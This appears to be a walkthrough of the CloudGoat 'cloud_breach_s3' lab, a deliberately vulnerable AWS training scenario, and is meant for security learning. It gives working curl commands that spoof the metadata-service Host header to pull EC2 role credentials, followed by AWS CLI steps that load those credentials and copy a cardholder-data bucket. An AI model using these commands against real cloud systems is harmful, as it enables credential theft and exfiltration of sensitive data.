 


## Walkthrough of the Rhino Labs S3 data breach scenario

<HR>
This walkthrouh includes steps for setup, commands in the cheatsheet which needed slight modification to work.  
After going through the scenario as written, I wanted to see whether we could prevent access with iptables firewall, 
and how the scenario would be impacted by implementation of the Instance Metadata Service Version 2 (IMDSV2) announced at re:Invent in December, 2019. 

<HR>
  
## Reference: 

Cloud Goat S3 breach scenario (release notes)
https://rhinosecuritylabs.com/aws/capital-one-cloud_breach_s3-cloudgoat/

Scenario Details: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

Scenario Cheat Sheet:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md

NOTE: Additional setup needed: ‘cloudgoat’ IAM user and profile, described in the CloudGoat 2 release notes 
https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/





<HR>
  
## Steps in scenario cheat-sheet:

1) curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254' 
``` 
% curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
cg-banking-WAF-Role-cgidatyedvvzzy
% 
```

2) curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

```
%~/Cloud_Goat_Test/Walkthrough# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidatyedvvzzy -H 'Host:169.254.169.254'
{
  "Code" : "Success",
  "LastUpdated" : "2020-01-12T19:06:22Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "XXXXXXXXXXXXXXXXXXXXXX",
  "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "Token" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==",
  "Expiration" : "2020-01-13T01:42:16Z"
```

3) aws configure --profile erratic

```
% aws configure --profile erratic
AWS Access Key ID [****************4R4E]: XXXXXXXXXXXXXXXXXX
AWS Secret Access Key [****************plSQ]: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX          
Default region name [us-east-1]: us-east-1
Default output format [None]: 
%
```

4) aws_session_token = <session-token>

Note: the steps required are slightly different than described in the cheat-sheet for this scenario.

Exporting as an environment variable could work, the variable name would need to be capitalized. “export AWS_SESSION_TOKEN=QoJb3Jp...”  The order for processing IAM credentials is: 1) in your code, 2) environment variables, 3) user profile ~/.aws/credentials  4) Role  

The cheat-sheet for the Cloud Goat server side request forgery scenario “ec2_ssrf” shows how to configure the TOKEN in the user profile:  https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md


<HR>
  
After editing for our current test: 

```
% tail ~/.aws/credentials
...
[erratic]
aws_session_token=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==
aws_access_key_id = XXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXxxx
```

<HR>

5) Use new credentials to list S3 buckets?  Success!

```
% aws s3 ls --profile erratic
2020-01-12 14:07:01 cg-cardholder-data-bucket-cgidatyedvvzzy
%
```

<HR>
  
6)  Copy bucket contents

```
% aws s3 sync s3://cg-cardholder-data-bucket-cgidatyedvvzzy ./cardholder-data --profile erratic
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_primary.csv to cardholder-data/cardholder_data_primary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholders_corporate.csv to cardholder-data/cardholders_corporate.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_secondary.csv to cardholder-data/cardholder_data_secondary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/goat.png to cardholder-data/goat.png
```

<HR>
  
#7) Reveiw local copy 

```
% ls ./cardholder-data/
cardholder_data_primary.csv  cardholder_data_secondary.csv  cardholders_corporate.csv  goat.png

% ls -ltr
total 456
-rw-r--r-- 1 root root 249500 Jan 12 14:07 goat.png
-rw-r--r-- 1 root root  92165 Jan 12 14:07 cardholders_corporate.csv
-rw-r--r-- 1 root root  59384 Jan 12 14:07 cardholder_data_secondary.csv
-rw-r--r-- 1 root root  58872 Jan 12 14:07 cardholder_data_primary.csv

% firefox ./goat.png
```









    


